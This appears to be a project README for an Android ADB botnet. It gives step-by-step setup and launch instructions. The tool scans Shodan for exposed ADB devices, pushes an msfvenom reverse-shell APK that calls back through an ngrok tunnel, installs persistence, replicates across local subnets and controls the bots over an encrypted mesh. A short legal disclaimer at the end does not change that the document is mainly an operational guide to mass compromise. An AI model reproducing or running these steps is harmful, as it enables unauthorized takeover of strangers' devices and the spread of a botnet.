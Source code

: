  # EVA ADB Botnet

**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Linux system:

### 1. Clone the repository

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
````

### 2. Install dependencies

```bash
sudo apt update && sudo apt install -y android-tools-adb python3-pip metasploit-framework
pip3 install pycryptodome requests
mkdir -p bots
```

---

## Optional ADB Install (Manual Method)

If you're having issues with the packaged ADB:

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:

```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```

---

## Ngrok Setup

EVA uses ngrok to forward ADB and payload ports publicly.

### 1. Download & install ngrok

```bash
cd ~/Eva_adb_botnet
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```

### 2. Add your ngrok auth token

```bash
./ngrok config add-authtoken <your_token_here>
```

### 3. Start a tunnel for your payload listener

```bash
./ngrok tcp 1337
```

Copy the **forwarded ngrok domain and port** — you’ll need them in the payload config below.

---

##  One-Time Configuration (Before Launch)

### 1. Set your Shodan API key

Edit `adb_reaper.py` and replace this:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

---

### 2. Configure msfvenom payload generation

Edit `metasploit_launcher.py` (which now builds the payload using `msfvenom`):

```python
LHOST = "0.tcp.ngrok.io"     # your forwarded ngrok domain
LPORT = "12345"              # your forwarded port
OUTPUT = "adb_payload.apk"   # payload filename
```

This file no longer launches the console — it generates a ready-to-push APK payload.

---

### 3. Update payload path in dropper

Edit `adb_dropper.py`:

```python
ADB_PAYLOAD = "adb_payload.apk"
```

EVA will push this APK to every connected ADB device.

---

### 4. Set AES encryption key (optional but recommended)

Edit `jeangrey_crypto.py`:

```python
SECRET_KEY = b'ChangeThis16Byte!'  # Use a secure 16-byte AES key
```

---

## Full Botnet Launch

```bash
python3 EVA_launcher.py
```

This will:

* Generate your payload via `msfvenom`
* Scan Shodan for exposed Android ADB targets
* Push the payload to infected devices
* Start encrypted mesh communication
* Begin peer discovery + replication
* Launch AI triggers + EVA Core

---

## View Active Bots

```bash
python3 eva_dashboard.py
```

* Shows IPs, tags, status
* Auto-refreshes every 3s

---

## Send Commands to Bots

```bash
python3 eva_core.py
```

Supported commands:

* `scan` – search nearby ADB devices
* `drop` – re-deploy payload
* `report` – show bot state
* `shutdown` – terminate a bot

---

## Autonomous AI Trigger Loop

```bash
python3 eva_ai_trigger.py
```

Bots will:

* Respond to mesh commands instantly
* Auto-scan, replicate, and report
* Operate continuously on mesh triggers

---

## Replication + Persistence

Bots will:

* Replicate to local subnet ADB devices
* Update `jeangrey_state.json` regularly
* Persist across reboot via `.bashrc`

Manual persistence install:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

---

## Bot Management

```bash
python3 state_editor.py
```

Allows you to:

* Rename bots
* Tag/untag
* View/edit JSON
* Delete infected nodes

---

## Directory Layout

```
Eva_adb_botnet/
├── EVA_launcher.py
├── metasploit_launcher.py       ← Generates msfvenom payload
├── adb_dropper.py               ← Pushes APK payload
├── adb_reaper.py                ← Shodan scraper
├── eva_core.py                  ← Sends mesh commands
├── eva_ai_trigger.py           ← Bot AI responder
├── eva_dashboard.py            ← Live bot status viewer
├── jeangrey_android.py         ← Bot implant logic
├── jeangrey_persist.sh         ← Android persistence
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    └── bot_<ip>/
        └── jeangrey_state.json
```

---

## ⚠️ Legal & Ethical Notice

EVA is a research framework designed for:

* Educational use
* Controlled environments
* Enviroments you have permission to test on.

**Do not deploy against unauthorized targets. Misuse may be illegal. You are responsible.**

---

## Vision

EVA is not just a botnet — she's a **mesh-aware framework**.
She replicates. She listens. She obeys.

